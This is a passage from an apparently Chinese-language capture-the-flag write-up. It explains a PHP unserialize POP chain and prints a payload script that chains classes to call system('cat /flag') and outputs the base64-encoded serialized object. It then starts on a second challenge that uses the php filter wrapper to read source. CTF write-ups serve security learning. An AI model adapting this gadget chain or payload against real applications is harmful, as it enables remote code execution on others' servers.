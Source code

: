 先从`a`进去，然后由`test`属性去进入`c`,c继承了b的方法（说明一下，$this->b=[$this,'eval']代表是以一个数组，并且把后面的值传给前面的值），然后触发`c`中的`eval`函数，但是我们需要给`c`中的属性赋值，创建了一个`a`的成员函数，在a函数中使用`d`的对象来创建一个数组，并且赋值。

payload

```php
<?php
class d {
    public $value;

    public function __construct(){
        $this->value="system";
    }
}

abstract class b {
    private $b;

    public function __construct(){
        $this->b=[$this,'eval'];
    }
}

class c extends b{
    private $call;
    protected $value;

    public function a(){
        $this->call=[new d(),'eval'];
        $x=new d();
        $x->value="cat /flag";
        $this->value=[$x,"eval"];
    }
}

class a {
    public $test;

    public function __construct(){
        $this->test;
    }
}

$a=new a();
$c=new c();
$c->a();
$a->test=$c;
echo base64_encode(serialize($a));
```

###  期末不挂科就算成功

F12,找到了一个debug.php,提示我们是php伪协议，我们直接使用filter协议获取源码
